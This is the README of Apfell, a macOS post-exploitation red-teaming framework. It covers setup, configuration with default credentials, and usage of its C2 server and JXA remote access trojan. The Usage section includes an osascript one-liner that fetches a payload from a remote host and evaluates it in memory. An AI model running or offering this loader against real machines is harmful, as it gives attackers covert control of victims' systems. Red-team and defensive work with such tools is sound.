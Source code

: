 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: The Sanic webserver says it only works on Linux). The setup script will also create a default user `apfell_admin` with a default password `apfell_password` that can be used. It's recommended to change this user's password after installing though.
```bash
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```

- Configure the installation in app/\_\_init\_\_.py. If you change any of the `db_*` variables here, you will need to reflect these changes in the `reset_db` script. I will eventually make one place to do all this, but right now the setup script creates things and this config file uses things.
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True
```
- There is currently an issue with Sanic and websockets 6/7 (tracked issue, but no pull request yet)
You need to edit Sanic with a slight update (I'm going to make a pull request for Sanic so we don't need to do this, but that'll take a little while). In the meantime, do `sudo find / -type f -name "app.py"` to find the appropriate Sanic file to edit.
In here, find the line that says `protocol = request.transport._protocol` and edit it to be:
```python
if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol
```
## Usage
- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443
```
By default, the server will bind to 0.0.0.0 on port 443. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to https://0.0.0.0:443 in your browser. Instead, you'll browse to either https://localhost:443 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.  

Apfell uses JSON Web Token (JWT) for authentication. When you use the browser (vs the API on the commandline), I store your access and refresh tokens in a cookie. This should be seamless as long as you leave the server running; however, the history of the refresh tokens is saved in memory. So, if you authenticate in the browser, then restart the server, you'll get an access denied error when your access token times out. Just clear your cookie and navigate back to the website.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
When you run the server, a default user account "apfell_admin" with a password of "apfell_password" is created. This allows me to setup the default c2 profiles as well since they have to be tied to a specific operator. You can either use this account or create a new one.
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Host the new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/web_hosting.JPG)
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters
